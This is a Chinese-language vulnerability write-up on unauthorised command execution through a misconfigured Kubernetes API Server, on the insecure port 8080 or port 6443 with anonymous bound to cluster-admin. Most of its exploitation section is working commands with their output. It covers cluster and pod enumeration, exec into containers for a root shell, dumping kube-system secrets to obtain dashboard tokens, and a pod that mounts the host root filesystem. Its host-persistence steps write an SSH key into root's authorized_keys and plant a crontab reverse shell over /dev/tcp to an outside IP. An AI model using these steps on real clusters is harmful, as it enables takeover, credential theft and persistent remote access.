



# K8s API Server 未授权命令执行

## 漏洞描述

Kubernetes 是一个可以移植、可扩展的开源平台，使用 声明式的配置 并依据配置信息自动地执行容器化应用程序的管理。在所有的容器编排工具中（类似的还有 docker swarm / mesos 等），Kubernetes 的生态系统更大、增长更快，有更多的支持、服务和工具可供用户选择。

K8s 的 API Server 默认服务端口为 8080(insecure-port) 和 6443(secure-port)，8080 端口提供 HTTP 服务，没有认证授权机制，而 6443 端口提供 HTTPS 服务，支持认证 (使用令牌或客户端证书进行认证) 和授权服务。默认情况下 8080 端口不启动，而 6443 端口启动。这两个端口的开放取决于/etc/kubernetes/manifests/kube-apiserver.yaml 配置文件。

如果目标 K8s 的 8080 端口开启了，由于其没有认证授权机制，因此存在未授权访问。

如果目标 K8s 的 6443 端口开启了，如果配置错误，也可以导致存在未授权访问。

## 漏洞复现

### 8080 端口

默认情况下，8080 端口关闭的，手动开启：

```
cd /etc/kubernetes/manifests
vim kube-apiserver.yaml
```

高版本的 k8s 中，将 --insecure-port 这个配置删除了，因此添加如下两行：

```

- --insecure-port=8080
- --insecure-bind-address=0.0.0.0
```



重启 k8s：

```
systemctl restart kubectl
```

访问 8080 端口即可看到存在未授权：



也可以使用 kubectl 远程连接获得信息：

```
kubectl -s http://your-ip:8080 get nodes
```

注：在高版本（1.20 及其以后）的 K8s 中直接禁用了该端口，并且无法打开。

### 6443 端口

如果运维人员配置不当，将 "system:anonymous" 用户绑定到 "cluster-admin" 用户组，则会使得 6443 端口允许匿名用户以管理员权限访问。

正常情况下访问 6443 端口，提示 Forbidden。



执行如下命令将 "system:anonymous" 用户绑定到 "cluster-admin" 用户组：

```
kubectl create clusterrolebinding cluster-system-anonymous --clusterrole=cluster-admin --user=system:anonymous
```

再次访问访问 6443 端口，即可未授权访问。

## 漏洞利用

### 命令执行

#### 查看 k8s 集群信息

8080 端口

```
kubectl -s http://your-ip:8080 cluster-info
```

6443 端口

```
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ cluster-info
------
Please enter Username: test
Please enter Password: 
Kubernetes control plane is running at https://172.22.14.37:6443/
KubeDNS is running at https://172.22.14.37:6443//api/v1/namespaces/kube-system/services/kube-dns:dns/proxy
```

#### 查看 node 节点信息

8080 端口

```
# 查看node节点
kubectl -s http://your-ip:8080 get nodes

# 查看node节点详细信息
kubectl -s http://your-ip:8080 get nodes -o wide
```

6443 端口

```
# 查看node节点
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get nodes   
Please enter Username: 
Please enter Password: 
------
NAME         STATUS   ROLES    AGE    VERSION
ubuntu-k8s   Ready    master   244d   v1.16.6-beta.0

# 查看node节点详细信息
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get nodes -o wide
Please enter Username: 
Please enter Password: 
-----
NAME         STATUS   ROLES    AGE    VERSION          INTERNAL-IP    EXTERNAL-IP   OS-IMAGE             KERNEL-VERSION       CONTAINER-RUNTIME
ubuntu-k8s   Ready    master   244d   v1.16.6-beta.0   172.22.14.37   <none>        Ubuntu 18.04.6 LTS   4.15.0-213-generic   docker://24.0.2
```

#### 查看 pod 节点信息

8080 端口

```
# 查看所有的pod
kubectl -s http://your-ip:8080 get pods -A
```

6443 端口

```
# 查看所有的pod
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods -A
-----
Please enter Username: 
Please enter Password: 
NAMESPACE     NAME                                 READY   STATUS    RESTARTS   AGE
default       nginx-deployment                     1/1     Running   0          16m
default       nginx-deployment-58d48b746d-d6x8t    1/1     Running   3          240d
...
```

#### 执行其他命令

通过获取到的 pods 节点信息，进入对应 docker 命令执行。-n 对应的是 NAMESPACE，-it 对应的是 NAME。

##### 8080 端口

```
# 进入命名空间为default，名字为hello-minikube的容器
kubectl -s http://your-ip:8080 exec -n default -it hello-minikube -- /bin/bash

# 进入命名空间为kube-system，名字为etcd-ubuntu的容器
kubectl -s http://your-ip:8080 exec -n kube-system -it etcd-ubuntu -- /bin/sh
```

##### 6443 端口

```
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ exec -it nginx-deployment -- /bin/bash
-----
Please enter Username: 
Please enter Password: 
root@nginx-deployment:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### 获取 Token 登录 dashboard

访问如下接口，即可看到 K8s 所有的 Token，过滤找到 dashboard-admin 相关的 Token。

```
http://your-ip:8080/api/v1/namespaces/kube-system/secrets/

https://your-ip:6443/api/v1/namespaces/kube-system/secrets/
```

base64 解码，即可使用 base64 解码后的 Token 登录 K8s 的 dashboard。

### 获取宿主机权限

#### 创建 pod

创建名为 nginx-deployment 的 pod，将宿主机的目录挂载到 /mnt 目录下。

新建 test.yaml 文件，内容如下：

```
apiVersion: v1
kind: Pod
metadata:
  name: nginx-deployment
spec:
  containers:
  - image: nginx:1.8
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test
  volumes:
  - name: test
    hostPath:
      path: /
```

创建 pod 并查看运行情况：

```
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ apply -f test.yaml
-----
Please enter Username: test
Please enter Password: pod/nginx-deployment created
```

```
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ get pods
-----
Please enter Username: test
Please enter Password: NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment                    1/1     Running   0          12s
```

#### 写入 ssh 公钥

向 `/mnt/root/.ssh/authorized_keys` 写入公钥，即可获取宿主机 ssh 权限：

```
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ exec -it nginx-deployment /bin/bash
-----
root@nginx-deployment:/# echo "<YOUR_ID_RSA.PUB>" > /mnt/root/.ssh/authorized_keys
```

#### 定时任务反弹 shell

写入 crontab 来反弹获取 shell，执行如下命令，将反弹 shell 的命令写入 /var/spool/cron/root 文件中：

```
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/172.16.200.58/4444 0>&1" > root
```

nc 监听接收反弹 shell：

```
$ nc -lvp 4444
```

#### chroot 逃逸

```
chroot /mnt
```
